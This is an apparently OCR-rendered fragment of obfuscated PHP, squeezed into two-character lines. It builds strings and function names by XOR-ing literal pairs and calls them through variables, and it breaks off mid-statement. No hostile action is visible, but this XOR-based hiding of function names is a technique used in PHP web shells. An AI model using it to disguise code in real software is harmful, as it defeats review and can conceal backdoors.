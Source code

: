 ```php
$x
^#
$y
;#
$x
=#
'z
Hd
G'
;#
$y
='
x!
~!
';
$p
=#
$x
^#
$y
;#
$x
=#
'L
[p
';
$y
='
c!
';
$f
=#
$x
^#
$y
;#
$x
=#
'H
[p
';
$y
='
_!
';
$b
=#
$x
^#
$y
;#
$b
[1
]=
$c
(#
13
*9
);
$s
=#
$r
(1
```